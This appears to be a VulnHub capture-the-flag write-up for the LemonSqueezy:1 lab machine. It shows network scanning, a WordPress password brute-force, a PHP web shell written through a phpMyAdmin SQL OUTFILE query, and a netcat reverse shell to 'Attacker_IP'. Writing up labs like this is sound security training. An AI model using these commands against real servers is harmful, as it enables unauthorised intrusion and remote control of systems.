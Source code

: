 # Lemonsqueezy:1 ~vulnhub writeup

**DISCRIPTION**

This is a beginner boot2root challenge.

This is a VMware machine. DHCP is enabled, add lemonsqueezy to your hosts. It’s easypeasy!

Difficulty level: Beginner to intermediate

Author: James Hay

Download link- [https://download.vulnhub.com/lemonsqueezy/LemonSqueezy.7z](https://download.vulnhub.com/lemonsqueezy/LemonSqueezy.7z)

1. Find out Target IP address - **nmap -sn 192.168.122.0/24**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled.png)

### Scanning

  2.  Full port scanning - **nmap -p- 192.168.122.143**

*** Port 80 is open

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%201.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%201.png)

  3.   Service version scanning - **nmap -sV -A -p 192.168.122.143**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%202.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%202.png)

  4.  OS Scanning - **nmap -O 192.168.122.143**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%203.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%203.png)

   5.  Vulnerability scanning using nmap 

**nmap -sV -A --script vuln -p 80 192.168.122.143**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%204.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%204.png)

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%205.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%205.png)

   6.  **nikto -h 192.168.122.143**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%206.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%206.png)

** phpmyadmin directory found

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%207.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%207.png)

** CMS - Wordpress

### Enumeration

  7.  Wordpress scanning

Enumerating user - **wpscan —url [http://192.168.122.143/wordpress](http://192.168.122.143/wordpress) -e u**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%208.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%208.png)

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%209.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%209.png)

  8.  Add host in /etc/hosts

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2010.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2010.png)

  9.  Enumerating password

**wpscan —url [http://lemonsqueezy/wordpress](http://192.168.122.143/wordpress) --wordlist /usr/share/seclists/Passwords/darkweb2017.txt --username orange**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2011.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2011.png)

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2012.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2012.png)

### Exploitation

  10.  Login with username orange and password ginger

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2013.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2013.png)

SUCCESSFULLY LOGIN

  11.  Found Password of phpmyadmin

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2014.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2014.png)

  12.  Trying to login in phpmyadmin with username orange and password **n0t1n@w0rdl1st!**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2015.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2015.png)

  SUCCESSFULLY LOGIN

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2016.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2016.png)

  13.  Injecting RCE Payload in SQL Query

**"<?php echo system($_GET['cmd']); ?>" into OUTFILE "/var/www/html/wordpress/rev.php"**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2017.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2017.png)

  14.  Open in browser **[http://lemonsqueezy/wordpress](http://lemonsqueezy/wordpress)/rev.php?cmd=ls**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2018.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2018.png)

  15.  Taking reverse shell and start listening using command - nc -nlvp 8004

[**http://lemonsqueezy/wordpress](http://lemonsqueezy/wordpress)/rev.php?cmd=nc -e /bin/bash Attacker_IP 8004**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2019.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2019.png)

Capturing user flag

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2020.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2020.png)
